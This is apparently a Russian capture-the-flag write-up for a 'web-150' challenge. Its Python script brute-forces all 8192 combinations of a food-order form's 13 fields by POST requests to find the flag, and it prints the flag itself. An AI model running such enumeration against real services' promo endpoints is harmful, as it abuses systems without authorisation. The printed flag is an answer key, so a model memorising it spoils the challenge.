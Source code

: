 # web-150

Зайдя на сайт, видим страничку с выбором блюд. При нажатии на кнопку нам либо выдается промокод, либо выводится сообщение о том, что такого промокода еще нету (выбирается случайно). Поиск флага в файлах и трафике ни к чему не приведет. Значит, флаг должен прийти к нам вместо промокода. Как вариант - попробовать порыться в файловой системе сервера и найти флаг там, но никаких намеков на категорию admin здесь нету. Значит, можно попробовать перебрать все возможные заказы. Всего их 2^13 (8192). Для этого напишем программу, которая будет перебирать все варинанты и отправлять post-запросы на сайт. Пример кода (solve.py):

    from requests import get, post
    
    SERVER = "SERVER:HOST"
    
    fields = ['cheeseburger', 'hamburger', 'shrimpburger', 'big_king', 'roll', 'potato_fri', 'potato_country', 'nuggets', 'chicken', 'icecream', 'coke', 'lipton', 'mirinda']
    
    values = ['n'] * 13
    
    
    def send(cntr):
        global values
        if cntr == 13:
            params = {"submit": "Take"}
            for i in range(0, 13):
                if values[i] == 'y':
                    params[fields[i]] = 'y'
            d = post(f'http://{SERVER}/web150', data=params)
            print(d.content.decode("utf-8"))
            return
        for var in 'n', 'y':
            values[cntr] = var
            send(cntr + 1)
    
    send(-1)
PS Контест проводился в локальной сети, флаг можно было получить спутся минтуту работы программы, на удаленной сети решение может работать гораздо дольше.

Флаг: **flag{burg3r5_4nd_c0k3_fr0m_j4cqu3_fr35c0}**